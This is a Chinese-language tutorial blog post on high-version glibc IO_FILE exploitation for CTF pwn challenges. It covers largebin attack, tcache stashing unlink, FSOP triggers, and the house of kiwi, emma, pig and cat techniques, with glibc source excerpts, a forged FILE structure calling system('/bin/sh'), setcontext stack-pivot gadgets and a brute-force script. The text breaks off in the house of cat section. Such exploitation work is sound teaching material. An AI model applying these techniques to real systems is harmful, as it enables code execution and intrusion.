

# 序

前段时间给人讲课，碰上了高版本glibc堆利用这部分。刚好自己啥也不会，于是花了些时间好好学了下IOFILE在高版本下的利用。好在最后没有翻车，自己在备课期间也独立完成了一些经典例题，算是有了一些粗浅的收获。现以一个初学者的目光重新梳理学习IOFILE利用的整个过程。

# 辅助手法

IOFILE的利用，通常需要伪造IOFILE结构体，随后通过一些方式触发IO流，使得程序调用我们劫持后的IO函数，从而达成getshell或者orw。所以IOFILE exploit实际上是整个利用环节的**最后一步**，要达成伪造IOFILE结构体、触发IO链，往往需要借助一些**辅助手法**。

在高版本下，最为常用的是**largebin attack**，该手法需要一个UAF，达成后能在任意目标地址写上堆地址，简单暴力，用过都说好。另一种是**tcache stashing unlink**，该手法在house of pig中被使用，要求程序使用calloc，并存在UAF，通常结合largebin attack达成将目标地址分配为chunk。

## largebin attack

> 原先存在两条利用链，其中一条在高版本下已被封禁，查找资料时需甄别。

首先我们需要了解largebin的结构：


一个large bin中包含**一定范围大小**的large chunk，如第一个largebin大小范围为(0x400-0x430)，第二个为(0x440-0x470)。同一个bin中，相同大小的chunk之间用`fd`、`bk`相连，不同大小用`fd_nextsize`、`bk_nextsize`相连，且自动由大到小排序，如上图中左边的大于右边。

当有新的chunk加入largebin，且大小小于该bin中已有的chunk时，会进行如下操作（精简版）：

```c
victim_index = largebin_index (size);
/*查找该size属于的bin范围，返回index*/
bck = bin_at (av, victim_index);
/*取得bin*/
fwd = bck->fd;

if ((unsigned long) (size)< (unsigned long) chunksize_nomask (bck->bk))
{
    fwd = bck;
    bck = bck->bk;
    victim->fd_nextsize = fwd->fd;
    victim->bk_nextsize = fwd->fd->bk_nextsize;//critical1!!!
    fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;//critical2!!!
}
```

该操作实际上完成了一个简单的将chunk加入双向链表的过程，可以逐步手动模拟加深理解

该操作缺失对双向链表完整性的检查，可以加以利用

我们假设largebin中仅存在chunk0，现在准备将chunk1加入largebin，且chunk0 > chunk1。我们把chunk0的`bk_nextsize`修改为`[target-0x20]`(即`target`目标地址位于以`[target-0x20]`开头的chunk的`fd_nextsize`处)

修改完成后，我们将chunk1入链，重点关注上述代码片段中注释的部分。critical1处 `victim->bk_nextsize = (&target)-4)`，critical2处 `(&target)-4)->fd_nextsize = victim`，即`*target = victim`。目标达成

由此可见，largebin attack的利用相当简单，只需一个UAF即可完成

## tcache stashing unlink attack

glibc加入tcache后，当从smallbin中取出chunk时，如果smallbin中仍有chunk且对应tcache未填满，则会将smallbin中剩余chunk全部依次放入对应tcache中。而在该过程中，只对从smallbin中取出的chunk进行了完整性检查，后续chunk均没有。该手法则利用了这一漏洞。

以下为将smallbin中chunk放入tcache的代码片段：

```c
bck = victim->bk;
if (__glibc_unlikely (bck->fd != victim))
        malloc_printerr ("malloc(): smallbin double linked list corrupted");
//只对第一个chunk进行了完整性检查，后面进入循环，无检查
...
// 获取 small bin 中倒数第二个 chunk 。
bck = tc_victim->bk;
...
bin->bk = bck;
bck->fd = bin;
//将其放入到Tcache中
tcache_put (tc_victim, tc_idx);
```

假设smallbin中只存在两个chunk，先入的为chunk0，后入的为chunk1，根据smallbin的**FIFO**原则，取出时先取出chunk0


同时令对应大小的tcache中已填入5个chunk

此时将chunk1的`bk`位修改为目标地址`target`（不破坏`fd`），并利用其他手法使得`[target+0x8]`处为一个指向**可写内存**的指针。把`target`看作一个chunk的用户指针，则`[target+0x8]`为`bk`位。此处令其可写是因为进行该攻击时会向该指针指向的地址处写一个值，如果不可写的话程序会报错。用largebin attack将此处覆盖为可写的堆地址是一种常见操作

此时，我们用`calloc`函数将chunk0申请出来。`calloc`具有跳过tcache申请chunk的性质，所以此处只能用`calloc`。之后chunk1会加入tcache，chunk1的bk指向的`target`也会加入tcache。如果我们使用`malloc`，根据tcache **LIFO**的性质，就能将`target`申请出来。

# IOFILE及相关结构

##  _IO_FILE_PLUS

程序在进行**IO操作**时，会用到IOFILE相关的结构。例如众所周知的`stdin`、`stdout`、`stderr`，都是指向IO结构体的指针。当打开一个文件时，程序需要记录文件的输入输出缓冲区等内容，于是需要一个`_IO_FILE`结构体进行记录。除此之外，对文件进行的各种操作形成了一张张函数虚表，文件需要一个指针记录对应的函数虚表，该指针被定义为`_IO_jump_t`类型。`_IO_FILE` 结构体和虚表指针`_IO_jump_t`形成了一个称为`_IO_FILE_plus`的结构体，它的定义是这样的：

```c
struct _IO_FILE_plus
{
  _IO_FILE file;
  const struct _IO_jump_t *vtable;
};
```

常见的`_IO_FILE_plus`结构体有`_IO_2_1_stderr`、`_IO_2_1_stdout`、`_IO_2_1_stdin`，前面提到的`stdin`等就是指向这些对应`_IO_FILE_plus`结构体的指针


可以通过gdb的`p`指令查看


此外，存在一个指向`_IO_FILE_plus`结构体的`_IO_list_all`指针，通常情况下指向`_IO_2_1_stderr`


每个`_IO_FILE`结构体中都存在一个`_chain`指针，指向下一个`_IO_FILE_plus`结构体。通常情况，表示如下：


当有新文件被打开时，对应的`_IO_FILE_plus`结构体就会被插入到**链首**。

## _IO_FILE

以下是`_IO_FILE`结构体的源码，看起来可能有些头大，重点需要了解的是几个**缓冲区的指针**、`_chain`

```c
/* The tag name of this struct is _IO_FILE to preserve historic
   C++ mangled names for functions taking FILE* arguments.
   That name should not be used in new code.  */
struct _IO_FILE
{
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */

  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;	/* Current read pointer */
  char *_IO_read_end;	/* End of get area. */
  char *_IO_read_base;	/* Start of putback+get area. */
  char *_IO_write_base;	/* Start of put area. */
  char *_IO_write_ptr;	/* Current put pointer. */
  char *_IO_write_end;	/* End of put area. */
  char *_IO_buf_base;	/* Start of reserve area. */
  char *_IO_buf_end;	/* End of reserve area. */

  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */

  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};

struct _IO_FILE_complete
{
  struct _IO_FILE _file;
#endif
  __off64_t _offset;
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data;
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
};
```

`_IO_FILE_complete`可以理解为`_IO_FILE`的豪华加长版，其中的`_wide_data`需要关注一下，有些手法会用到。

## _IO_jump_t

`vtable`是一个指向`_IO_jump_t`结构体的指针。当打开一个文件时，相应的 `_IO_FILE` 结构体会被创建，并将其` vtable` 字段指向对应文件类型的 `_IO_jump_t` 结构体的地址。这样，当需要执行文件操作时，可以通过 `_IO_FILE` 结构体中的 `vtable` 字段获取到相应的 `_IO_jump_t` 结构体，并通过其中的函数指针调用相应的文件操作函数。

通常，一个`_IO_jump_t` 结构体包含以下函数指针

```c
struct _IO_jump_t
{
    JUMP_FIELD(size_t, __dummy);
    JUMP_FIELD(size_t, __dummy2);
    JUMP_FIELD(_IO_finish_t, __finish);
    JUMP_FIELD(_IO_overflow_t, __overflow);
    JUMP_FIELD(_IO_underflow_t, __underflow);
    JUMP_FIELD(_IO_underflow_t, __uflow);
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    /* showmany */
    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    JUMP_FIELD(_IO_seekoff_t, __seekoff);
    JUMP_FIELD(_IO_seekpos_t, __seekpos);
    JUMP_FIELD(_IO_setbuf_t, __setbuf);
    JUMP_FIELD(_IO_sync_t, __sync);
    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    JUMP_FIELD(_IO_read_t, __read);
    JUMP_FIELD(_IO_write_t, __write);
    JUMP_FIELD(_IO_seek_t, __seek);
    JUMP_FIELD(_IO_close_t, __close);
    JUMP_FIELD(_IO_stat_t, __stat);
    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    JUMP_FIELD(_IO_imbue_t, __imbue);
#if 0
    get_column;
    set_column;
#endif
};
```

注意，程序中存在很多`_IO_jump_t`结构体，不同的`_IO_FILE_plus`可能采用不同的`_IO_jump_t`，例如stdin/stdout/stderr使用`_IO_file_jumps`，可以通过gdb查看


# FSOP基础

**FSOP**(File Stream Oriented Programming是针对`_IO_FILE`结构体与IO操作的攻击方式

通常可以分为两个步骤：**劫持**并**伪造**IO结构体、**触发**IO流

因为触发IO流的方式影响程序进入的IO结构体，所以我们先讲如何触发IO流

## 触发IO流

触发IO流的方式主要分为两种：**FSOP**的经典方式和**house of kiwi**的方式

### FSOP - _IO_flush_all_lockp()

该函数的调用有以下三种触发方式：

1. `libc`检测到**内存错误**，从而执行`abort`函数时（在`glibc-2.26`删除）
2. 程序执行`exit`函数
3. 程序从main函数返回（同样是执行exit）

可以看到，高版本下，基本的触发方式都是通过`exit`函数，其栈回溯为：

```c
_IO_flush_all_lockp (do_lock=do_lock@entry=0x0)
_IO_cleanup ()
__run_exit_handlers (status=0x0, listp=<optimized out>, run_list_atexit=run_list_atexit@entry=0x1)
__GI_exit (status=<optimized out>)
```

就能调用到`_IO_flush_all_lockp()`函数

该函数的代码片段如下：

```c
int _IO_flush_all_lockp (int do_lock)
{
  int result = 0;
  struct _IO_FILE *fp;
  int last_stamp;
 
  fp = (_IO_FILE *) _IO_list_all;
  while (fp != NULL)
    {
        ...
      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
#if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
       || (_IO_vtable_offset (fp) == 0
           && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
                    > fp->_wide_data->_IO_write_base))
#endif
       )
      && _IO_OVERFLOW (fp, EOF) == EOF)
    result = EOF;
 
    fp = fp->_chain; //遍历链表
    }
    [...]
}
```

可以看到，在经历一系列条件判断后，程序会调用虚表中的`_IO_OVERFLOW` 函数，而虚表指针是可以由我们伪造的。所以合理布局，触发该函数，就能进入我们伪造的执行流。

下面讲如何达成调用`_IO_OVERFLOW`函数的条件：

```c
      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
#if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
       || (_IO_vtable_offset (fp) == 0
           && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
                    > fp->_wide_data->_IO_write_base))
#endif
       )
      && _IO_OVERFLOW (fp, EOF) == EOF)
```

根据短路原则，执行`_IO_OVERFLOW`需要满足前面的条件为真，这里有一个或语句，故有两种达成条件，满足任一即可：

1. 
   ```c
   fp->_mode = 0
   fp->_IO_write_ptr > fp->_IO_write_base
   ```

   这是较为常用的达成条件，只需伪造`_IO_FILE`中的`_IO_write_ptr`、`_IO_write_base`和`_mode`即可达成

2. 
   ```c
   _IO_vtable_offset (fp) == 0
   fp->_mode > 0
   fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base
   ```

   该条件可以结合**house of cat**使用。其中`_IO_vtable_offset (fp) == 0` 即 `_vtable_offset`为0，另外需要关注`_wide_data`结构体，该手法会在house of cat中讲解

条件满足后，会从`_IO_list_all`开始沿着`fp -> chain`遍历FILE结构体，执行对应虚表中的`_IO_OVERFLOW`，即`<_IO_file_jumps+24>`

### house of kiwi - __malloc_assert

该手法用于在程序无`exit`时触发IO，且能控制`rdx`

以下为`__malloc_assert`的代码片段

```c
static void
__malloc_assert (const char *assertion, const char *file, unsigned int line,
       const char *function)
{
(void) __fxprintf (NULL, "%s%s%s:%u: %s%sAssertion `%s' failed.\n",
           __progname, __progname[0] ? ": " : "",
           file, line,
           function ? function : "", function ? ": " : "",
           assertion);
fflush (stderr);
abort ();
}
```

该函数调用的`__fxprintf`、`fflush`都能调用虚表中函数，有劫持的可能。

以下是进入`__malloc_assert`的方法

```c
assert ((old_top == initial_top (av) && old_size == 0) ||
        ((unsigned long) (old_size) >= MINSIZE &&
         prev_inuse (old_top) &&
         ((unsigned long) old_end & (pagesize - 1)) == 0));
```

不满足以下条件任一即可进入：

1. `old_size >=MINSIZE`
2. `old_top.pre_inuse = 0`
3. `old_top页对齐`

通常用的比较多的是第三种，因为页对齐条件较苛刻，通常修改topchunk的size都能不对齐。注意**不能改的太大**，否则会进入别的assert。这里修改的方式一般是构造**堆重叠**或**largebin attack**

接下来讲函数的调用链，这里分`__fxprintf`和`fflush`两种方式

#### __fxprintf

调用链为

`__fxprintf -> __vfxprintf -> locked_vfxprintf -> __vfprintf_internal -> _IO_new_file_xsputn `

需要满足的条件为：

1. `_IO_write_ptr` > `_IO_write_base`
2. `_lock`指向可写地址

调用后，仅刷新`stderr`，调用虚表`_IO_file_jumps`中的`_IO_new_file_xsputn`，即`<_IO_file_jumps+56>`

#### fflush

`fflush(stderr) => _IO_file_jumps => sync`

用的比较少，没什么条件。但是因为在`__fxprinf`之后，所以需要保证`__fxprinf`不会挂掉。

好处是通过这条调用链，在调用`sync`时的`rdx`固定，都是`IO_helper_jumps`，可以结合后面讲到的`<setcontext+61>`利用。不过高版本中加入虚表检测，这种利用变得困难

## 伪造FILE结构体

如何让我们伪造的FILE结构体在触发IO时被刷新？

如果使用**FSOP**的方式，程序从`_IO_list_all`开始沿着`fp -> chain`遍历。故我们可以修改`_IO_list_all`指针，指向我们伪造的结构体，如果使用largebin attack就可以一步到位指向布置在chunk上的伪造结构体。同时还可以修改`_chain`指针，劫持到多个伪造的结构体的利用链

如果使用**house of kiwi**的方式，程序仅刷新`stderr`，可以修改`stderr`指针（如果可写），甚至直接修改`_IO_2_1_stderr`的内容

伪造FILE的手法繁多，这里举出最原始的一种手法作为例子

### 上古时期的FSOP(Glibc<2.24)

因为触发FSOP时，会调用虚表中`<_IO_file_jumps+24>`处的`__overflow`函数，我们只需把该位置填入`system`的地址。当然，虚表不可写，我们可以将`vtable`处改为我们伪造的虚表。同时此时的`rdi`指向FILE结构体的`_flags`，所以可以将该位置填上`/bin/sh`

构造方式如下：

```c
._chain => chunk_addr1
chunk_addr1
{
  file = {
    _flags = "/bin/sh\x00", //对应此结构体首地址(fp)
    _IO_read_ptr = 0x0,
    _IO_read_end = 0x0,
    _IO_read_base = 0x0,
    _IO_write_base = 0x0,
    _IO_write_ptr = 0x1,
      ...
      _mode = 0x0, //一般不用特意设置
      _unused2 = '\000' <repeats 19 times>
  },
  vtable = chunk_addr2
}
chunk_addr2
{
  __dummy = 0x0,
  __dummy2 = 0x0,
  __finish = 0x0,
  __overflow = system_addr,
    ...
}
```

干净又卫生

### 虚表偏移时代(Glibc>=2.24)

加入了对虚表的检查`IO_validate_vtable()`与`IO_vtable_check()`，若无法通过检查，则会报错：`Fatal error: glibc detected an invalid stdio handle`

```c
static inline const struct _IO_jump_t * IO_validate_vtable (const struct _IO_jump_t *vtable)
{
  uintptr_t section_length = __stop___libc_IO_vtables - __start___libc_IO_vtables;
  const char *ptr = (const char *) vtable;
  uintptr_t offset = ptr - __start___libc_IO_vtables;
  if (__glibc_unlikely (offset >= section_length)) //检查vtable指针是否在glibc的vtable段中。
    _IO_vtable_check ();
  return vtable;
}
```

glibc中有一段完整的内存存放着各个`vtable`，其中`__start___libc_IO_vtables`指向第一个`vtable`地址`_IO_helper_jumps`，而`__stop___libc_IO_vtables`指向最后一个`vtable` `_IO_str_chk_jumps`结束的地址。若指针不在glibc的`vtable`段，会调用`_IO_vtable_check()`做进一步检查，以判断程序是否使用了外部合法的`vtable`（重构或是动态链接库中的`vtable`），如果不是则报错。

2.37以前有以下虚表

```c
_IO_helper_jumps
_IO_helper_jumps
_IO_cookie_jumps
_IO_proc_jumps
_IO_str_chk_jumps
_IO_wstrn_jumps
_IO_wstr_jumps
_IO_wfile_jumps_maybe_mmap
_IO_wfile_jumps_mmap
__GI__IO_wfile_jumps
_IO_wmem_jumps
_IO_mem_jumps
_IO_strn_jumps
_IO_obstack_jumps
_IO_file_jumps_maybe_mmap
_IO_file_jumps_mmap
__GI__IO_file_jumps
_IO_str_jumps
```

从此，虚表指针不能随意伪造了。好在这个检测依旧比较宽泛，我们依旧可以修改`vtable`为虚表内的其他指针，通过一定的**偏移**调用**其他虚表**内的函数

例如，原本house of kiwi会触发`<_IO_file_jumps+56>`处的`_IO_new_file_xsputn`函数，我们希望调用`<_IO_cookie_jumps+120>`处的`_IO_cookie_write`函数。原本`vtable`指向`_IO_file_jumps`，调用函数时则会将指针加上56。我们把`vtable`设置为`<_IO_cookie_jumps+64>`，那么在实际调用时，就会调用到`<_IO_cookie_jumps+64+56>`处的目标函数。这就是**虚表偏移**的思想，将执行流劫持到已有的函数上。

# 新时代的高版本IOFILE利用

高版本下的IOFILE利用方式很多，但大多不外乎都是利用**虚表偏移**的思想伪造FILE结构体，并通过以上的方式**触发IO**，从而getshell或者orw

这里介绍几种~~我会的~~比较好用的

## house of kiwi

相较于他的实战意义，kiwi更大的价值可能在于它的两条思路，一条是上文提到的`__malloc_assert`触发IO，另一条则是`setcontext<+61>`

这是一个函数的片段，兼具**布置寄存器、栈迁移**的功能，常常在沙盒限制`execve`的情况下用来打**orw链**，汇编代码如下

```assembly
0x00007fa70ef04a6d <+61>:    mov    rsp,QWORD PTR [rdx+0xa0]
0x00007fa70ef04a74 <+68>:    mov    rbx,QWORD PTR [rdx+0x80]
0x00007fa70ef04a7b <+75>:    mov    rbp,QWORD PTR [rdx+0x78]
0x00007fa70ef04a7f <+79>:    mov    r12,QWORD PTR [rdx+0x48]
0x00007fa70ef04a83 <+83>:    mov    r13,QWORD PTR [rdx+0x50]
0x00007fa70ef04a87 <+87>:    mov    r14,QWORD PTR [rdx+0x58]
0x00007fa70ef04a8b <+91>:    mov    r15,QWORD PTR [rdx+0x60]
0x00007fa70ef04a8f <+95>:    test   DWORD PTR fs:0x48,0x2
0x00007fa70ef04a9b <+107>:   je     0x7fa70ef04b56 <setcontext+294>#基本上都能跳
--->
0x00007fa70ef04b56 <+294>:   mov    rcx,QWORD PTR [rdx+0xa8]
0x00007fa70ef04b5d <+301>:   push   rcx
0x00007fa70ef04b5e <+302>:   mov    rsi,QWORD PTR [rdx+0x70]
0x00007fa70ef04b62 <+306>:   mov    rdi,QWORD PTR [rdx+0x68]
0x00007fa70ef04b66 <+310>:   mov    rcx,QWORD PTR [rdx+0x98]
0x00007fa70ef04b6d <+317>:   mov    r8,QWORD PTR [rdx+0x28]
0x00007fa70ef04b71 <+321>:   mov    r9,QWORD PTR [rdx+0x30]
0x00007fa70ef04b75 <+325>:   mov    rdx,QWORD PTR [rdx+0x88]
0x00007fa70ef04b7c <+332>:   xor    eax,eax
0x00007fa70ef04b7e <+334>:   ret	
```

围绕`rdx`进行参数的布置，就能设置好各个寄存器

这里最重要的两条是

`[rdx+0xa0]` => `rsp`

`[rdx+0xa8]` => `rcx` => `ret`

我们通常将`rcx`布置为`ret`的gadget，这样在最后`ret`的时候就能实现栈迁移到赋给`rsp`的地址上

## house of emma

可以理解为kiwi衍生出的攻击手法，需要以下三个条件

1. 可以**任意写**一个可控地址（LargeBin Attack、Tcache Stashing Unlink Attack...）

2. 一次**任意地址读** 或 再来一次**任意写**

3. 可以**触发 IO 流**（FSOP、house of kiwi）

利用的虚表为`_IO_cookie_jumps`，存在拓展结构`_IO_cookie_file`（还是`_IO_FILE_plus`加长版），多了一个函数表，存在劫持的可能

```c
/* Special file type for fopencookie function.  */
struct _IO_cookie_file
{
  struct _IO_FILE_plus __fp;
  void *__cookie;
  cookie_io_functions_t __io_functions;
};
 
typedef struct _IO_cookie_io_functions_t
{
  cookie_read_function_t *read;        /* Read bytes.  */
  cookie_write_function_t *write;    /* Write bytes.  */
  cookie_seek_function_t *seek;        /* Seek/tell file position.  */
  cookie_close_function_t *close;    /* Close file.  */
} cookie_io_functions_t;
```

需要调用的虚表函数如下

```c
static ssize_t
_IO_cookie_read (FILE *fp, void *buf, ssize_t size)
{
  struct _IO_cookie_file *cfile = (struct _IO_cookie_file *) fp;
  cookie_read_function_t *read_cb = cfile->__io_functions.read;
#ifdef PTR_DEMANGLE
  PTR_DEMANGLE (read_cb);
#endif
 
  if (read_cb == NULL)
    return -1;
 
  return read_cb (cfile->__cookie, buf, size);
}
 
static ssize_t
_IO_cookie_write (FILE *fp, const void *buf, ssize_t size)
{
  struct _IO_cookie_file *cfile = (struct _IO_cookie_file *) fp;
  cookie_write_function_t *write_cb = cfile->__io_functions.write;
#ifdef PTR_DEMANGLE
  PTR_DEMANGLE (write_cb);
#endif
 
  if (write_cb == NULL)
    {
      fp->_flags |= _IO_ERR_SEEN;
      return 0;
    }
 
  ssize_t n = write_cb (cfile->__cookie, buf, size);
  if (n < size)
    fp->_flags |= _IO_ERR_SEEN;
 
  return n;
}
 
static off64_t
_IO_cookie_seek (FILE *fp, off64_t offset, int dir)
{
  struct _IO_cookie_file *cfile = (struct _IO_cookie_file *) fp;
  cookie_seek_function_t *seek_cb = cfile->__io_functions.seek;
#ifdef PTR_DEMANGLE
  PTR_DEMANGLE (seek_cb);
#endif
 
  return ((seek_cb == NULL
       || (seek_cb (cfile->__cookie, &offset, dir)
           == -1)
       || offset == (off64_t) -1)
      ? _IO_pos_BAD : offset);
}
 
static int
_IO_cookie_close (FILE *fp)
{
  struct _IO_cookie_file *cfile = (struct _IO_cookie_file *) fp;
  cookie_close_function_t *close_cb = cfile->__io_functions.close;
#ifdef PTR_DEMANGLE
  PTR_DEMANGLE (close_cb);
#endif
 
  if (close_cb == NULL)
    return 0;
 
  return close_cb (cfile->__cookie);
}
```

这里写了4个函数，其实大同小异，都调用了一个从`_IO_cookie_file`结构体的函数表中取出的函数指针，以`_IO_cookie_write`为例

```c
static ssize_t
_IO_cookie_write (FILE *fp, const void *buf, ssize_t size)
{
  struct _IO_cookie_file *cfile = (struct _IO_cookie_file *) fp;
  cookie_write_function_t *write_cb = cfile->__io_functions.write;//取出函数指针
#ifdef PTR_DEMANGLE
  PTR_DEMANGLE (write_cb);//指针保护
#endif
 
  if (write_cb == NULL)
    {
      fp->_flags |= _IO_ERR_SEEN;
      return 0;
    }
 
  ssize_t n = write_cb (cfile->__cookie, buf, size);//调用函数
  if (n < size)
    fp->_flags |= _IO_ERR_SEEN;
 
  return n;
}
```

所以我们只需伪造`_IO_cookie_file`结构体的函数表，就能调用任意函数。同时这里的`rdi`是可控的。如果要打getshell，可以直接构造；如果要打orw，可以利用libc中一个gadgets

```assembly
mov rdx, qword ptr [rdi + 8]; 
mov qword ptr [rsp], rax; 
call qword ptr [rdx + 0x20];
```

完成从可控`rdi`到可控`rdx`的转换

此外，`_IO_cookie_file`里的函数指针不能直接伪造，因为默认开启了PTR_DEMANGLE （指针保护）

```c
extern uintptr_t __pointer_chk_guard attribute_relro;
#  define PTR_MANGLE(var) \
  (var) = (__typeof (var)) ((uintptr_t) (var) ^ __pointer_chk_guard)
#  define PTR_DEMANGLE(var) PTR_MANGLE (var)
```

`__pointer_chk_guard`存在于TLS段上，将其ROR移位0x11后再与存入的地址进行异或


`fs[0x30]`的值位于与libc相邻的ld空间中，这个位置距离libc地址的偏移固定，可能与本地patchelf后不一致，可以通过爆破得到。因为偏移的变化值往往在地址末尾的第四个、第五个数（末三位不变），可编写如下脚本

```python
for x in range(0x10):
    for y in range(0x10):
        try:
            libc_base = 0x1234
            offset = 0x6 << 20
            offset += x << 16
            offset += y << 12
            ld_base = libc_base + offset
            log.success("try offset:\t" + hex(offset))
            # your code
            sh.interactive()
        except EOFError:
            sh.close()
```

详细题解可以看[另一篇博客](https://deepunk42.github.io/2023/07/27/house-of-emma21%E6%B9%96%E6%B9%98%E6%9D%AF%E5%A4%8D%E7%8E%B0/)

## house of pig

- 用于程序中只有`calloc`而没有`malloc`的情况

- 通常需要**一次largebin attack**以完成tcache stashing unlink attack的准备

- 需要**一次tcache stashing unlink attack**

调用虚表`_IO_str_jumps` -> `_IO_str_overflow`函数

```c
int _IO_str_overflow (FILE *fp, int c)
{
  int flush_only = c == EOF;
  size_t pos;
  if (fp->_flags & _IO_NO_WRITES)
      return flush_only ? 0 : EOF;
  if ((fp->_flags & _IO_TIED_PUT_GET) && !(fp->_flags & _IO_CURRENTLY_PUTTING))
    {
      fp->_flags |= _IO_CURRENTLY_PUTTING;
      fp->_IO_write_ptr = fp->_IO_read_ptr;
      fp->_IO_read_ptr = fp->_IO_read_end;
    }
  pos = fp->_IO_write_ptr - fp->_IO_write_base;
  if (pos >= (size_t) (_IO_blen (fp) + flush_only))
    {
      if (fp->_flags & _IO_USER_BUF) /* not allowed to enlarge */
    return EOF;
      else
        {
          char *new_buf;
          char *old_buf = fp->_IO_buf_base;
          size_t old_blen = _IO_blen (fp);
          size_t new_size = 2 * old_blen + 100;
          if (new_size < old_blen)
            return EOF;
          new_buf = malloc (new_size); // 1
          if (new_buf == NULL)
            {
              /*      __ferror(fp) = 1; */
              return EOF;
            }
          if (old_buf)
            {
              memcpy (new_buf, old_buf, old_blen); // 2
              free (old_buf); // 3
              /* Make sure _IO_setb won't try to delete _IO_buf_base. */
              fp->_IO_buf_base = NULL;
            }
          memset (new_buf + old_blen, '\0', new_size - old_blen); // 4
 
          _IO_setb (fp, new_buf, new_buf + new_size, 1);
          fp->_IO_read_base = new_buf + (fp->_IO_read_base - old_buf);
          fp->_IO_read_ptr = new_buf + (fp->_IO_read_ptr - old_buf);
          fp->_IO_read_end = new_buf + (fp->_IO_read_end - old_buf);
          fp->_IO_write_ptr = new_buf + (fp->_IO_write_ptr - old_buf);
 
          fp->_IO_write_base = new_buf;
          fp->_IO_write_end = fp->_IO_buf_end;
        }
    }
 
  if (!flush_only)
    *fp->_IO_write_ptr++ = (unsigned char) c;
  if (fp->_IO_write_ptr > fp->_IO_read_end)
    fp->_IO_read_end = fp->_IO_write_ptr;
  return c;
}
libc_hidden_def (_IO_str_overflow)
```

> 打tcache stashing没有`malloc`取不出chunk怎么办？
>
> 我有`_IO_str_overflow`！！！（自豪）

这个函数中，完美达成`malloc`、`memcpy`、`free`一条龙服务

什么？你的版本太高打不了`free_hook`？

没关系，最后还有一个`memset`可以写libc中的got表

如果需要打orw，`rdx`也是可控的



`<+53>mov rdx, QWORD PTR [rdi+0x28]`

`rdi`指向`_flags`，`rdi+0x28`指向`_IO_write_ptr`，可控

详细题解可以看[另一篇博客](https://deepunk42.github.io/2023/07/27/xctf2021finalhouseofpig%E5%A4%8D%E7%8E%B0/)

## house of cat

只需要**一次**任意写！

调用虚表`_IO_wfile_jumps`中的`_IO_wfile_seekoff`函数

```c
off64_t
_IO_wfile_seekoff (FILE *fp, off64_t offset, int dir, int mode)
{
  off64_t result;
  off64_t delta, new_offset;
  long int count;
 
  if (mode == 0)
    return do_ftell_wide (fp);
  int must_be_exact = ((fp->_wide_data->_IO_read_base
            == fp->_wide_data->_IO_read_end)
               && (fp->_wide_data->_IO_write_base
               == fp->_wide_data->_IO_write_ptr));
#需要绕过was_writing的检测
  bool was_writing = ((fp->_wide_data->_IO_write_ptr
               > fp->_wide_data->_IO_write_base)
              || _IO_in_put_mode (fp));
 
  if (was_writing && _IO_switch_to_wget_mode (fp))
    return WEOF;
......
}
```

最终目的是调用`_IO_switch_to_wget_mode`函数

```assembly
► 0x7fbbb9489d30 <_IO_switch_to_wget_mode>       endbr64
  0x7fbbb9489d34 <_IO_switch_to_wget_mode+4>     mov    rax, qword ptr [rdi + 0xa0]
  0x7fbbb9489d3b <_IO_switch_to_wget_mode+11>    push   rbx
  0x7fbbb9489d3c <_IO_switch_to_wget_mode+12>    mov    rbx, rdi
  0x7fbbb9489d3f <_IO_switch_to_wget_mode+15>    mov    rdx, qword ptr [rax + 0x20]
  0x7fbbb9489d43 <_IO_switch_to_wget_mode+19>    cmp    rdx, qword ptr [rax + 0x18]
  0x7fbbb9489d47 <_IO_switch_to_wget_mode+23>    jbe    _IO_switch_to_wget_mode+56                
  0x7fbbb9489d49 <_IO_switch_to_wget_mode+25>    mov    rax, qword ptr [rax + 0xe0]
  0x7fbbb9489d50 <_IO_switch_to_wget_mode+32>    mov    esi, 0xffffffff
  0x7fbbb9489d55 <_IO_switch_to_wget_mode+37>    call   qword ptr [rax + 0x18]
```

这里call了一个`rax`相关的地址，而`rax`由`rdi`决定

再说调用条件，需要满足两个

1. `was_writing == 1`

   即fp->`_wide_data`->`_IO_write_ptr`    >  fp->`_wide_data`->`_IO_write_base`

